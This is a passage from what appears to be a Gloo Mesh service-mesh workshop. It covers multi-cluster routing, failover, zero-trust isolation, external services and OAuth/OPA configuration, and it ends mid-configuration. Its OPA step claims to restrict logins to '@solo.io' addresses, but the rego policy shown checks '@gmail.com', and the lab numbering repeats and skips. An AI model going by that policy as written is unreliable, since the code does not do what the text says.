 3 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
...
```

You can see that the last certificate in the chain is now identical on both clusters. It's the new root certificate.

The first certificate is the certificate of the service. Let's decrypt it.

Copy and paste the content of the certificate (including the BEGIN and END CERTIFICATE lines) in a new file called `/tmp/cert` and run the following command:

```
openssl x509 -in /tmp/cert -text
```

The output should be as follow:

```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            7d:27:ae:8d:78:b3:dc:ab:1b:1b:4d:7e:cc:47:17:1a
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: 
        Validity
            Not Before: Sep 17 08:21:08 2020 GMT
            Not After : Sep 18 08:21:08 2020 GMT
        Subject: 
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
...
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            X509v3 Extended Key Usage: 
                TLS Web Server Authentication, TLS Web Client Authentication
            X509v3 Basic Constraints: critical
                CA:FALSE
            X509v3 Subject Alternative Name: critical
                URI:spiffe://cluster2/ns/bookinfo-backends/sa/bookinfo-ratings
    Signature Algorithm: sha256WithRSAEncryption
...
-----BEGIN CERTIFICATE-----
MIIEBjCCAe6gAwIBAgIQfSeujXiz3KsbG01+zEcXGjANBgkqhkiG9w0BAQsFADAA
...
EtTlhPLbyf2GwkUgzXhdcu2G8uf6o16b0qU=
-----END CERTIFICATE-----
```

The Subject Alternative Name (SAN) is the most interesting part. It allows the sidecar proxy of the `reviews` service to validate that it talks to the sidecar proxy of the `ratings` service.

We also need to make sure we restart our `in-mesh` deployment because it's not yet part of a `Workspace`:

```bash
kubectl --context ${CLUSTER1} -n httpbin rollout restart deploy/in-mesh
```


## Lab 11 - Multi-cluster Traffic <a name="Lab-11"></a>

On the first cluster, the `v3` version of the `reviews` microservice doesn't exist, but we can use Gloo Mesh to explicitly direct all the traffic to the `v3` version of the second cluster.

To do that, the Bookinfo team must update the `WorkspaceSettings` to discover all the `reviews` services and to make them available from any cluster.

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
  options:
    federation:
      enabled: true
      hostSuffix: global
      serviceSelector:
      - workspace: bookinfo
        labels:
          app: reviews
EOF
```

Gloo Mesh will discover the remote services and create the corresponding Istio `ServiceEntries` to make them available.

After that, you need to create a `RouteTable` to send all the traffic to the `v3` version of the `reviews` service running on the second cluster.

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
    - 'reviews.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: productpage
  http:
    - name: reviews
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: reviews
              namespace: bookinfo-backends
              cluster: cluster2
            port:
              number: 9080
            subset:
              version: v3
EOF
```

If you refresh the page, you'll see the `v3` version of the `reviews` microservice:



This updated diagram shows the flow of the requests:



Let's delete the `RouteTable` we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends delete routetable reviews
```


## Lab 12 - Leverage Virtual Destinations <a name="Lab-12"></a>

Right now, we've only exposed the `productpage` service on the first cluster.

In this lab, we're going to make it available on both clusters.

Let's update the VirtualGateway to expose it on both clusters.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
  listeners: 
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
      allowedRouteTables:
        - host: '*'
EOF
```

Then, we can configure the `RouteTable` to send the traffic to a Virtual Destination which will be composed of the `productpage` services running in both clusters.

Let's create this Virtual Destination.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  hosts:
  - productpage.global
  services:
  - namespace: bookinfo-frontends
    labels:
      app: productpage
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

Note that we have added the label `expose` with the value `true` to make sure it will be exported to the Gateway `Workspace`.

After that, we need to update the `RouteTable` to use it.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          exact: /login
      - uri:
          exact: /logout
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
            kind: VIRTUAL_DESTINATION
            port:
              number: 9080
EOF
```

You can now access the `productpage` service using the gateway of the second cluster.

Get the URL to access the `productpage` service from the second cluster using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER2}/productpage"
```

Now, if you try to access it from the first cluster, you can see that you now get the `v3` version of the `reviews` service (red stars).

This diagram shows the flow of the request (through both Istio ingress gateways):


## Lab 13 - Service failover across clusters and Locality Configuration <a name="Lab-13"></a>

It's nice to now be able to shift traffic across multiple clusters, but you generally want to direct the traffic to the local services if they're available and failover to the remote cluster only when they're not.

In order to do that we need to create 2 other policies.

The first one is a `FailoverPolicy`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    localityMappings: []
EOF
```

It will update the Istio `DestinationRule` to enable failover.

The second one is an `OutlierDetectionPolicy`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 30s
    maxEjectionPercent: 100
EOF
```

It will update the Istio `DestinationRule` to specify how/when we want the failover to happen.

As you can see, both policies will be applied to `VirtualDestination` objects that have the label `failover` set to `"true"`.

So we need to update the `VirtualDestination`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
    failover: "true"
spec:
  hosts:
  - productpage.global
  services:
  - namespace: bookinfo-frontends
    labels:
      app: productpage
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

Now, if you try to access the productpage from the first cluster, you should only get the `v1` and `v2` versions (the local ones).

This updated diagram shows the flow of the requests using the local services:


If the `productpage` service doesn't exist on the first cluster, the Istio Ingress Gateway of this cluster will automatically use the `productpage` service running on the other cluster.

Let's try this:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends scale deploy/productpage-v1 --replicas=0
kubectl --context ${CLUSTER1} -n bookinfo-frontends wait --for=jsonpath='{.spec.replicas}'=0 deploy/productpage-v1
```

You can still access the application on cluster1 even if the productpage isn't running there anymore. And you can see the `v3` version of the `reviews` service (red stars).

This updated diagram shows the flow of the request now that the `productpage` service isn't running in the first cluster:


Let's restart the `productpage` service:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends scale deploy/productpage-v1 --replicas=1
kubectl --context ${CLUSTER1} -n bookinfo-frontends wait --for=jsonpath='{.status.readyReplicas}'=1 deploy/productpage-v1
```

But what happens if the `productpage` service is running, but is unavailable ?

Let's try !

The following command will patch the deployment to run a new version which won't respond to the incoming requests.

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends patch deploy productpage-v1 --patch '{"spec": {"template": {"spec": {"containers": [{"name": "productpage","command": ["sleep", "20h"]}]}}}}'
kubectl --context ${CLUSTER1} -n bookinfo-frontends rollout status deploy/productpage-v1
```

You can still access the bookinfo application.

This updated diagram shows the flow of the request now that the `productpage` service isn't available in the first cluster:



Run the following command to make the `productpage` available again in the first cluster

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends patch deployment productpage-v1  --type json   -p '[{"op": "remove", "path": "/spec/template/spec/containers/0/command"}]'
kubectl --context ${CLUSTER1} -n bookinfo-frontends rollout status deploy/productpage-v1
```

Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          exact: /login
      - uri:
          exact: /logout
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
            port:
              number: 9080
EOF
```

And also delete the different objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete virtualdestination productpage
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete failoverpolicy failover
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete outlierdetectionpolicy outlier-detection
```

## Lab 14 - Deploy sleep containers for zero-trust lab <a name="Lab-14"></a>
If you do not have ephemeral containers feature flag turned on, we can replace the functionality with the sleep demo app

Run the following commands to deploy the sleep app on `cluster1` twice.
The first version will be called `sleep-not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).
```bash
kubectl --context ${CLUSTER1} create ns sleep

kubectl --context ${CLUSTER1} apply -n sleep -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sleep-not-in-mesh
  namespace: sleep
---
apiVersion: v1
kind: Service
metadata:
  name: sleep-not-in-mesh
  namespace: sleep
  labels:
    app: sleep-not-in-mesh
    service: sleep-not-in-mesh
spec:
  ports:
  - port: 80
    name: http
  selector:
    app: sleep-not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: sleep-not-in-mesh
  namespace: sleep
spec:
  replicas: 1
  selector:
    matchLabels:
      app: sleep-not-in-mesh
  template:
    metadata:
      labels:
        app: sleep-not-in-mesh
    spec:
      terminationGracePeriodSeconds: 0
      serviceAccountName: sleep-not-in-mesh
      containers:
      - name: sleep
        image: curlimages/curl
        command: ["/bin/sleep", "3650d"]
        imagePullPolicy: IfNotPresent
        volumeMounts:
        - mountPath: /etc/sleep-not-in-mesh/tls
          name: secret-volume
      volumes:
      - name: secret-volume
        secret:
          secretName: sleep-not-in-mesh-secret
          optional: true
EOF
```

The second version will be called sleep-in-mesh and will have the sidecar injected (because of the label istio.io/rev in the Pod template).
```bash
kubectl --context ${CLUSTER1} apply -n sleep -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sleep-in-mesh
  namespace: sleep
---
apiVersion: v1
kind: Service
metadata:
  name: sleep-in-mesh
  namespace: sleep
  labels:
    app: sleep-in-mesh
    service: sleep-in-mesh
spec:
  ports:
  - port: 80
    name: http
  selector:
    app: sleep-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: sleep-in-mesh
  namespace: sleep
spec:
  replicas: 1
  selector:
    matchLabels:
      app: sleep-in-mesh
  template:
    metadata:
      labels:
        app: sleep-in-mesh
        istio.io/rev: 1-13
    spec:
      terminationGracePeriodSeconds: 0
      serviceAccountName: sleep-in-mesh
      containers:
      - name: sleep
        image: curlimages/curl
        command: ["/bin/sleep", "3650d"]
        imagePullPolicy: IfNotPresent
        volumeMounts:
        - mountPath: /etc/sleep-in-mesh/tls
          name: secret-volume
      volumes:
      - name: secret-volume
        secret:
          secretName: sleep-in-mesh-secret
          optional: true
EOF
```


## Lab 14 - Zero trust <a name="Lab-14"></a>

In the previous step, we federated multiple meshes and established a shared root CA for a shared identity domain.

All the communications between Pods in the mesh are now encrypted by default, but:

- communications between services that are in the mesh and others which aren't in the mesh are still allowed and not encrypted
- all the services can talk together

Let's validate this.

Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

With Sleep App:
```
kubectl --context ${CLUSTER1} exec -it -n sleep deploy/sleep-not-in-mesh -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

With Ephemeral Containers:
```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `200` response code which confirm that the communication is currently allowed.

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

With Sleep App:
```
kubectl --context ${CLUSTER1} exec -it -n sleep deploy/sleep-in-mesh -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

With Ephemeral Containers:
```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `200` response code again.

To enfore a zero trust policy, it shouldn't be the case.

If you run the commands below, you will find that no `PeerAuthentication`, `AuthorizationPolicy`, or `Sidecars` have been configured to enforce zero trust.
```
kubectl get PeerAuthentication -A --context ${CLUSTER1}
kubectl get AuthorizationPolicy -A --context ${CLUSTER1}
kubectl get Sidecars -A --context ${CLUSTER1}
```

When running these commands you should see an output that says `No resources found`. This is expected.

Now we'll leverage the Gloo Mesh workspaces to get to a state where:

- communications between services which are in the mesh and others which aren't in the mesh aren't allowed anymore
- communications between services in the mesh are allowed only when services are in the same workspace or when their workspaces have import/export rules.

The Bookinfo team must update its `WorkspaceSettings` Kubernetes object to enable service isolation.

```bash
kubectl apply --context ${CLUSTER1} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
  options:
    serviceIsolation:
      enabled: true
      trimProxyConfig: true
EOF
```

When service isolation is enabled, Gloo Mesh creates the corresponding Istio `AuthorizationPolicy` and `PeerAuthentication` objects, as well as configures the `Sidecar` objects to enforce zero trust.

When `trimProxyConfig` is set to `true`, Gloo Mesh also creates the corresponding Istio `Sidecar` objects to program the sidecar proxies to only know how to talk to the authorized services.

To validate this, run the commands below:
```
kubectl get PeerAuthentication -A --context ${CLUSTER1}
kubectl get AuthorizationPolicy -A --context ${CLUSTER1}
kubectl get Sidecars -A --context ${CLUSTER1}
```

To dig in deeper, you can run a `kubectl get <resource> -n <namespace> -o yaml` to see more details on what Gloo Mesh is doing under the hood

For example:
```
kubectl get AuthorizationPolicy -n bookinfo-frontends settings-productpage-9080-bookinfo -o yaml
```

Will yield the AuthorizationPolicy that was automatically generated by Gloo Mesh when workspace isolation was turned on:
```
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  creationTimestamp: "2022-06-14T20:40:44Z"
  generation: 1
  labels:
    agent.gloo.solo.io: gloo-mesh
    cluster.multicluster.solo.io: ""
    context.mesh.gloo.solo.io/cluster: cluster1
    context.mesh.gloo.solo.io/namespace: bookinfo-frontends
    context.mesh.gloo.solo.io/workspace: bookinfo
    gloo.solo.io/parent_cluster: cluster1
    gloo.solo.io/parent_group: ""
    gloo.solo.io/parent_kind: Service
    gloo.solo.io/parent_name: productpage
    gloo.solo.io/parent_namespace: bookinfo-frontends
    gloo.solo.io/parent_version: v1
    owner.gloo.solo.io/name: gloo-mesh
    reconciler.mesh.gloo.solo.io/name: translator
    relay.solo.io/cluster: cluster1
  name: settings-productpage-9080-bookinfo
  namespace: bookinfo-frontends
  resourceVersion: "9799"
  uid: 23499fc1-c1fe-49b5-8a84-ca454214d99d
spec:
  rules:
  - from:
    - source:
        principals:
        - cluster1/ns/bookinfo-backends/sa/bookinfo-details
        - cluster1/ns/bookinfo-backends/sa/bookinfo-ratings
        - cluster1/ns/bookinfo-backends/sa/bookinfo-reviews
        - cluster1/ns/bookinfo-backends/sa/default
        - cluster1/ns/bookinfo-frontends/sa/bookinfo-productpage
        - cluster1/ns/bookinfo-frontends/sa/default
        - cluster2/ns/bookinfo-backends/sa/bookinfo-details
        - cluster2/ns/bookinfo-backends/sa/bookinfo-ratings
        - cluster2/ns/bookinfo-backends/sa/bookinfo-reviews
        - cluster2/ns/bookinfo-backends/sa/default
        - cluster2/ns/bookinfo-frontends/sa/bookinfo-productpage
        - cluster2/ns/bookinfo-frontends/sa/default
    - source:
        principals:
        - cluster1/ns/gloo-mesh-addons/sa/default
        - cluster1/ns/gloo-mesh-addons/sa/ext-auth-service
        - cluster1/ns/gloo-mesh-addons/sa/rate-limiter
        - cluster1/ns/istio-gateways/sa/default
        - cluster1/ns/istio-gateways/sa/istio-eastwestgateway
        - cluster1/ns/istio-gateways/sa/istio-ingressgateway
        - cluster2/ns/gloo-mesh-addons/sa/default
        - cluster2/ns/gloo-mesh-addons/sa/ext-auth-service
        - cluster2/ns/gloo-mesh-addons/sa/rate-limiter
        - cluster2/ns/istio-gateways/sa/default
        - cluster2/ns/istio-gateways/sa/istio-eastwestgateway
        - cluster2/ns/istio-gateways/sa/istio-ingressgateway
    to:
    - operation:
        ports:
        - "9080"
  selector:
    matchLabels:
      app: productpage
```

If you refresh the browser, you'll see that the bookinfo application is still exposed and working correctly.

Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

With Sleep App:
```
kubectl --context ${CLUSTER1} exec -it -n sleep deploy/sleep-not-in-mesh -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

With Ephemeral Containers:
```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `000` response code which means that the communication can't be established.

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

With Sleep App:
```
kubectl --context ${CLUSTER1} exec -it -n sleep deploy/sleep-in-mesh -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

With Ephemeral Containers:
```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `403` response code which means that the sidecar proxy of the `reviews` service doesn't allow the request.

You've achieved zero trust with nearly no effort.

## Lab 16 - Create the httpbin workspace <a name="Lab-16"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 17 - Expose an external service <a name="Lab-17"></a>

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

You should now be able to access `httpbin.org` external service through the gateway.

Get the URL to access the `httpbin` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
          weight: 50
EOF
```

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


# Gloo Gateway Labs

## Lab 1 - Securing the access with OAuth <a name="Lab-1-gw"></a>
In this step, we're going to secure the access to the `httpbin` service using OAuth. Integrating an app with extauth consists of a few steps:
```
- create app registration in your OIDC
- configuring a Gloo Mesh `ExtAuthPolicy` and `ExtAuthServer`
- configuring the `RouteTable` with a specified label (i.e. `oauth: "true"`)
```

### In your OIDC Provider
Once the app has been configured in the external OIDC, we need to create a Kubernetes Secret that contains the OIDC client-secret. Please provide this value input before running the command below:
```bash
export HTTPBIN_CLIENT_SECRET="<provide OIDC client secret here>"
```

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: httpbin
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${HTTPBIN_CLIENT_SECRET} | base64)
EOF
```

Set the callback URL in your OIDC provider to map to our httpbin app
```bash
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} get nodes -o jsonpath='{.items[0].status.addresses[?(.type=="InternalIP")].address}'):$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.spec.ports[?(@.port==443)].nodePort}')

echo $ENDPOINT_HTTPS_GW_CLUSTER1
```

Lastly, replace the `OICD_CLIENT_ID` and `ISSUER_URL` values below with your OIDC app settings:
```bash
export OIDC_CLIENT_ID="<client ID for httpbin app>"
export ISSUER_URL="<OIDC issuer url (i.e. https://dev-22651234.okta.com/oauth2/default)>"
```

Let's make sure our variables are set correctly:
```bash
echo $OIDC_CLIENT_ID
echo $ISSUER_URL
```


Then, you need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information: 

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: httpbin
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: https://${ENDPOINT_HTTPS_GW_CLUSTER1}
            callbackPath: /callback
            clientId: ${OIDC_CLIENT_ID}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${ISSUER_URL}"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: httpbin-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
EOF
```

After that, you need to create an `ExtAuthServer`, which is a CRD that define which extauth server to use: 

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: httpbin
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Finally, you need to update the `RouteTable` to use this `AuthConfig`:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

## Lab 2 - Integrating with OPA <a name="Lab-2-gw"></a>

### OPA inputs
You can also perform authorization using OPA. Gloo Mesh's OPA integration populates an input document to use in your OPA policies which allows you to easily write rego policy
- `input.check_request` - By default, all OPA policies will contain an Envoy Auth Service CheckRequest. This object contains all the information Envoy has gathered of the request being processed. See the Envoy docs and proto files for AttributeContext for the structure of this object.
- `input.http_request` - When processing an HTTP request, this field will be populated for convenience. See the Envoy HttpRequest docs and proto files for the structure of this object.
- `input.state.jwt` - When the OIDC auth plugin is utilized, the token retrieved during the OIDC flow is placed into this field. 

## Lab
In this lab, we will make use of the `input.state.jwt` parameter in our OPA policies to decode the `jwt` token retrieved in the last lab and create policies using the claims available, namely the `sub` and `email` claims.

### Enforce @solo.io username login by inspecting the JWT email payload
For our first use-case we will decode the JWT token passed through extauth for the `email` payload, and enforce that a user logging in must end with `@solo.io` as the username with OPA

First, you need to create a `ConfigMap` with the policy written in rego. 
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: httpbin-opa
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@gmail.com")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:
```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: httpbin
